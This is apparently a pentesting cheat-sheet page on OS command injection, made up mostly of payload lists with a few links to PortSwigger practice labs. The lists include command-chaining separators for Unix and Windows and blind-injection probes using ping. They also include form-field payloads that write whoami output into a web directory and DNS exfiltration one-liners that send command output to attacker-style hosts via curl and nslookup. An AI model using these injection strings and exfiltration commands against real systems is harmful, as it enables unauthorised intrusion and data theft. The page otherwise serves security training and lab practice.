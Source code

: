 ```yaml
---
title: "Command Injection"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```




- Command Injection/Execution :
```sh
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful
0x0a or \n #Newline 

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```

- Detecting blind OS command injection :
```sh
& ping -c 10 127.0.0.1 &
#Request Post :
name=dede&email=test%40gmail.com||+ping+-c+10+127.0.0.1+||&subject=dede&message=deeeeeeeeeeee
```

`Don't forget to try every possibilities !`

- Output redirection: 
```sh
name=test&email=||whoami>/var/www/images/output.txt||&subject=test&message=test
```

 **Blind OS command injection with out-of-band interaction**
 
 Lab :https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band

 **Blind OS command injection with out-of-band data exfiltration**

Lab : https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration

### RCE - Exfiltrating via DNS

```
curl http://$(whoami).site.com/
curl http://`whoami`.site.com/
nslookup `whoami`.attacker-server.com &
```